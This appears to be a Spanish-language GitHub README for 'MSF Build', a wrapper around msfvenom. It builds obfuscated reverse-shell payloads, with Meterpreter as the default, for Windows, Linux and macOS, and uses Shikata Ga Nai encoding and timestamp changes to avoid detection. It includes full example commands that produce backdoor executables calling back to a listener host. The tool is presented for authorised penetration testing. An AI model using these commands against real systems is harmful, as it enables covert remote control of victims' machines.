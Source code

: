 # 🛠️ MSF Build - Advanced Payload Builder

*Herramienta profesional para generar payloads ofuscados con Msfvenom utilizando el codificador Shikata Ga Nai*

![msfbuild](https://github.com/user-attachments/assets/d617ca7f-50f8-46b3-be4b-6ed0567277c0)

## 📜 Descripción
**MSF Build** es una herramienta CLI para generar payloads ofuscados multiplataforma con medidas anti-detección integradas. Utiliza `msfvenom` para crear los payloads y está diseñado para pruebas de penetración éticas.

## ✨ Características
- ✅ Soporte para **Windows**, **Linux** y **macOS**
- 🔄 Ofuscación con **Shikata Ga Nai** y múltiples interaciones.
- 🛡️ Medidas básicas anti-detección (modificación de metadatos)
- 🎨 Interfaz colorida con animaciones
- 🧩 Generación de payloads en múltiples formatos: `exe`, `elf`, `macho`, `python`

## 🚀 Instalación

### Requisitos:
- Python 3.6+
- Metasploit Framework (`msfvenom`)
- Terminal con soporte ANSI

```
# Instalar dependencias
pip install colorama
sudo apt install metasploit-framework  # Para sistemas Debian/Ubuntu

# Clonar repositorio
git clone https://github.com/afsh4ck/MSF-Build.git
cd MSF-Build
```

## 🖥️ Uso

Menú de Ayuda:
```
python3 msfbuild.py -h                                                                                  
    __  ___ _____  ______   ____          _  __     __
   /  |/  // ___/ / ____/  / __ ) __  __ (_)/ /____/ /
  / /|_/ / \__ \ / /_     / __  |/ / / // // // __  / 
 / /  / / ___/ // __/    / /_/ // /_/ // // // /_/ /  
/_/  /_/ /____//_/      /_____/ \__,_//_//_/ \__,_/   
-------------------------------------------------------
     Msfvenom advanced obfuscated payload generator    
-------------------------------------------------------
                 Developed by: @afsh4ck                

usage: python3 msfbuild.py --os <OS> --arch <ARCH> --type <TYPE> --lhost <IP> --lport <PORT> -o <OUTPUT> [-i ITERATIONS]

options:
  --os {windows,linux,macos}               Sistema operativo objetivo
  --arch {x86,x64}                         Arquitectura objetivo
  --type {exe,elf,macho,python}            Tipo de archivo de salida
  --lhost LHOST                            Dirección IP para conexión reversa
  --lport LPORT                            Puerto para conexión reversa
  -o OUTPUT, --output OUTPUT               Nombre del archivo de salida
  -i ITERATIONS, --iterations ITERATIONS   Iteraciones de ofuscación (solo x86)
  -h, --help                               Mostrar este mensaje de ayuda
```

## 💻 Ejemplos

### Generar ejecutable para Windows x86:
- Por defecto usa el payload: windows/meterpreter/reverse_tcp
```
python3 msfbuild.py \
  --os windows \
  --arch x86 \
  --type exe \
  --lhost 192.168.1.100 \
  --lport 4444 \
  -o payload.exe \
  -i 10
```
### Generar ejecutable para Linux x64:
- Por defecto usa el payload: linux/x64/meterpreter/reverse_tcp
```
python3 msfbuild.py \
  --os linux \
  --arch x64 \
  --type elf \
  --lhost 10.0.0.5 \
  --lport 8080 \
  -o backdoor.elf
```
### Generar ejecutable para macOS:
- Por defecto usa el payload: osx/x64/shell_reverse_tcp
```
python3 msfbuild.py \
  --os macos \
  --arch x64 \
  --type macho \
  --lhost 172.16.23.45 \
  --lport 6500 \
  -o mac_payload
```

## 🛡️ Medidas de Seguridad

- Modificación de timestamps en archivos .exe
- Advertencias automáticas para configuraciones incompatibles
- Validación estricta de parámetros de entrada

## ⚠️ Disclaimer

Este software está diseñado exclusivamente para:
- Pruebas de seguridad autorizadas
- Investigación en entornos controlados
- Educación en ciberseguridad

El uso malicioso de esta herramienta es estrictamente prohibido. 
El autor no se hace responsable del uso indebido.

## 🥷🏼 Autor
- Autor:       afsh4ck 
- Instagram:   <a href="https://www.instagram.com/afsh4ck">afsh4ck</a>
- Youtube:     <a href="https://youtube.com/@afsh4ck">afsh4ck</a>

## ❤️ Soporte

<a href="https://www.buymeacoffee.com/afsh4ck" rel="nofollow"><img width="250" align="left">
![buy-me-a-coffe](https://github.com/user-attachments/assets/8c8f9e81-334e-469e-b25e-29888cfc9fcc)
</a>
